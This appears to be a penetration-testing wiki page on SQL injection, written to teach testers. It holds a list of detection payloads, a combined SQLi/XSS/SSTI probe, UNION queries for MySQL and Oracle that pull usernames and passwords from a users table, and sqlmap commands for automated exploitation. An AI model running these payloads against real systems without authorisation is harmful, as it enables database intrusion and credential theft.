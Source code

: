 # SQL injection

## Theory

Many web applications use one or multiple databases to manage data. In order to dynamically edit the database while users browse the website, some SQL queries can rely on input vectors. When input parameters used in those queries are insufficiently validated or sanitized, these web apps can be vulnerable to SQL injections.

SQL injection attacks can allow attackers to read, update, insert or delete database data by injecting a piece of SQL query through the input vector, hence affecting the intended execution of the original query. In some cases, these attacks can also lead to File Download, File Upload or even Remote Code Execution.

## Practice

Testers need to identify input vectors (parts of the app that accept content from the users) that could be used for database operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

### Vulnerable input recon

Using special SQL characters (`'`, `"`, `#`, `;`, `)`, `*`,`%`) in an input could lead to SQL errors sometimes echoed back to the users for debugging. This would indicate an entry point not sanitized enough and thus potentially vulnerable to SQL injection.

{% hint style="info" %}
For every payload do not forget to try url encoding or others.
{% endhint %}

### Manual testing

With `some.website/?parameter=value` some basic useful payload to detect vulnerable inputs are:

```
parameter=1
parameter=1'
parameter=1"
parameter=[1]
parameter[]=1
parameter=1`
parameter=1\
parameter=1/**/
parameter=1/*!111'*/
parameter=1' or '1'='1
parameter=1 or 1=1
parameter=' or ''='
parameter=' OR 1 -- -
parameter=1' or 1=1 --
parameter=1' or 1=1 -- -
parameter=1' or 1=1 /*
parameter='='
```

{% hint style="warning" %}
GET parameters are not the only ones that could be vulnerable to SQLi. Testers should thoroughly test all user inputs (parameters, user-agents, cookies...)
{% endhint %}

The following payload is used for testing SQL injections, [XSS (Cross-Site Scripting)](xss.md) and [SSTI (Server-Side Template Injection)](../../web/inputs/ssti.md).

```
'"<svg/onload=prompt(5);>{{7*7}}
```

#### Extracting information with UNION

{% tabs %}
{% tab title="MySQL" %}
1\. Finding number of columns:

```sql
' ORDER BY 2 -- # iterate until error to find number of columns
```

2\. Extract database information:

```sql
' UNION SELECT @@version, NULL -- # Inserting null depending on number of columns
```

3\. Find tables name:

```sql
' UNION SELECT NULL,concat(COLUMN_NAME) from information_schema.columns where table_name='users' --
```

4\. Retrieve information from table:

```sql
' UNION SELECT username,password from users --
```
{% endtab %}

{% tab title="Oracle" %}
1\. Finding number of columns:

```sql
' ORDER BY 2 -- # iterate until error to find number of columns
```

2\. Extract database information:

```sql
' UNION SELECT banner,NULL from v$version --
```

3\. Find tables name:

```sql
' UNION SELECT table_name,NULL from all_tables --
```

4\. Retrieve information from table:

```sql
' UNION SELECT username,password from users --
```
{% endtab %}
{% endtabs %}

### Automated tests

Tools like [SQLmap](https://github.com/sqlmapproject/sqlmap) (Python) or [SQLninja](https://github.com/xxgrunge/sqlninja) (Perl) can also be used to fuzz input vectors, find vulnerable entry points and automatically exploit them.

{% hint style="danger" %}
Just like any fuzzing tool, these scans need to be slowed down when testing production instances as it could lead to an unintended denial of service. In addition to that, testers need to use those tools with the greatest care since creating issues with production instances databases (like overwriting or deleting data) could have a serious fallout.
{% endhint %}

```bash
sqlmap --user-agent "PENTEST" --url $URL -p target_parameter --all
```

It is also possible to load request files and let SQLmap do the heavy work of fuzzing every parameter and input vector.

```bash
sqlmap -r $REQUEST_FILE --level 2 -v 2 --all
```

The request file should look like a standard HTTP request (line, headers, empty line, optional data). It can be obtained by many ways like inspecting network operations in a browser, intercepting requests with a proxy (like Burp Suite), and so on.

```http
POST /login.php HTTP/1.1
Host: www.target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,fr;q=0.5,fr-FR;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Cookie: JSESSIONID=F168EA13C46D14AA134E13D4;
Connection: keep-alive
Upgrade-Insecure-Requests: 1

username=testusername&password=testpassword
```

## Resources

{% embed url="https://www.asafety.fr/mysql-injection-cheat-sheet/" %}

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

{% embed url="https://portswigger.net/web-security/sql-injection" %}

{% embed url="http://pentestmonkey.net/category/cheat-sheet/sql-injection" %}
SQL injection cheatsheets (MSSQL, MySQL, Oracle SQL, Postgres SQL, ...)
{% endembed %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}

{% embed url="https://portswigger.net/web-security/sql-injection/cheat-sheet" %}

{% embed url="https://portswigger.net/kb/issues/00100210_sql-injection-second-order" %}

{% embed url="https://github.com/Hakumarachi/Loose-Compare-Tables" %}
